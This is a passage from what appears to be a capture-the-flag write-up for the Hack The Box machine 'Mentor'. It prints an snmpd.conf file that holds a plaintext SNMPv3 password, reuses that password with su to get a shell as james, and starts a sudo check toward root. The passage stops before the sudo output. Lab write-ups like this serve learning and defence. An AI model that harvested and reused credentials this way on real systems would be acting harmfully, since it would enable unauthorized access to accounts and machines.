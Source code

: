     
    
    svc@mentor:/etc/snmp$ cat snmpd.conf | grep -v "^#" | grep .
    sysLocation    Sitting on the Dock of the Bay
    sysContact     Me <admin@mentorquotes.htb>
    sysServices    72
    master  agentx
    agentAddress udp:161,udp6:[::1]:161
    view   systemonly  included   .1.3.6.1.2.1.1
    view   systemonly  included   .1.3.6.1.2.1.25.1
    rocommunity  public default -V systemonly
    rocommunity6 public default -V systemonly
    rouser authPrivUser authpriv -V systemonly
    includeDir /etc/snmp/snmpd.conf.d
    createUser bootstrap MD5 SuperSecurePassword123__ DES
    rouser bootstrap priv
    com2sec AllUser default internal
    group AllGroup v2c AllUser
    view SystemView included .1.3.6.1.2.1.25.1.1
    view AllView included .1
    access AllGroup "" any noauth exact AllView none none
    

There’s a password in there for a bootstrap SNMPv3 user,
“SuperSecurePassword123__”.

### su / sudo

#### Shell as james

This password doesn’t work for root:

    
    
    svc@mentor:/$ su -
    Password: 
    su: Authentication failure
    

But it does work for james:

    
    
    svc@mentor:/$ su james -
    Password: 
    james@mentor:/$ 
    

#### Shell as root

james can run `/bin/sh` as root:

    
    
    james@mentor:/$ sudo -l
    [sudo] password for james: 
    Matching Defaults entries for james on mentor:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
    